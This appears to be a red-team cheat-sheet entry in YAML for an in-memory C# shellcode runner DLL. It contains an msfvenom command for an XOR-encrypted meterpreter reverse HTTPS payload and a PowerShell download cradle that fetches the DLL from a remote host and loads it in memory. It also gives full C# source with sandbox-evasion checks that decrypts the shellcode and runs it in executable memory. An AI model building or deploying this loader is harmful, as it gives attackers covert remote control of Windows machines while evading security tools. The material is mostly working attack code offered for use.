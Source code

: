 ```yaml
---
description: |
  Shellrunner in managed DLL, with the below code you can create a DLL that hold an meterpreter shell. Host this DLL on your webserver and retrieve it via the second part of the code, which makes sure the DLL is directly loaded into the memory of the Windows machine.

  Command Reference:

  	byte[] buf: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a


command: |
    $data = (New-Object System.Net.WebClient).DownloadData('http://10.10.14.21/ShellcodeRunner.dll')

    $assem = [System.Reflection.Assembly]::Load($data)
    or (for local file)
    $assem = [System.Reflection.Assembly]::LoadFile("C:\user\documents\ClassLibrary1.dll")

    $class = $assem.GetType("ShellcodeRunner.Program")
    $method = $class.GetMethod("Run")
    $method.Invoke(0, $null)
    Or
    $a = [ShellcodeRunner.Program]::Run()
    ```

code: |
    using System;
    using System.Runtime.InteropServices;

    namespace ShellcodeRunner
    {
        public class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();

            public static void Run()
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }

                // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[657] {0x9d,0x29,0xe2, [...]
                                ,0x9e,0xb4};

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
                Marshal.Copy(buf, 0, addr, buf.Length);
                IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
                WaitForSingleObject(hThread, 0xFFFFFFFF);
            }
        }
    }


items:
    - Shell
services:
    - 
OS:
    - Windows
attack_types:
    - Persistence
    - Injection
references:
    - https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-with-powershell-cradle-in-memory
--- 
```




